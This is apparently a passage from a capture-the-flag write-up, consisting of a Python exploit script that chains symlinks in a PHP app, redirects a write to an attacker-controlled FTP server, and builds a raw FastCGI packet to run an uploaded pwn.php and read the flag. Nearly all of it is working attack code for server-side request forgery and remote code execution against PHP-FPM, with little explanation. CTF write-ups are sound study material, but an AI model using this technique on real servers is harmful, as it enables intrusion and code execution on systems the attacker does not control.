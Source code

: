 ```python3
s2 = requests.Session()
s2.cookies.set("PHPSESSID", "strellmao2")
create(s2, "c", symlink=".")
create(s2, "b", symlink="c")
create(s2, "a", symlink="b")
delete(s2, "c")
create(s2, "a", symlink=f"ftp://{REMOTE_FTP_SERVER}/pwned")

# FastCGI constants
FCGI_BEGIN_REQUEST = 1
FCGI_PARAMS = 4
FCGI_STDIN = 5
FCGI_RESPONDER = 1

def create_packet(packet_type, content):
    version, request_id, padding_length, reserved = 1, 1, 0, 0
    header = struct.pack('>BBHHBB', version, packet_type, request_id, len(content), padding_length, reserved)
    return header + content

def pack_params(params):
    result = b''
    for k, v in params.items():
        assert len(k) <= 127 and len(v) <= 127
        result += struct.pack('>BB', len(k), len(v)) + k.encode() + v.encode()
    return result

# FastCGI payload
params = {
    'SCRIPT_FILENAME': f'/tmp/{folder}/pwn.php',
    'QUERY_STRING': '',
    'SCRIPT_NAME': f'/tmp/{folder}/pwn.php',
    'REQUEST_METHOD': 'GET',
}

evil_fcgi_packet = b''.join([
    create_packet(FCGI_BEGIN_REQUEST, struct.pack('>H', FCGI_RESPONDER) + b'\x00' * 6),
    create_packet(FCGI_PARAMS, pack_params(params)),
    create_packet(FCGI_PARAMS, pack_params({})),
    create_packet(FCGI_STDIN, b''),
])

write(s2, "c", evil_fcgi_packet)

time.sleep(3)
read(s, "flag")
``` 

Shoutout to master strellic

# Simple web server 
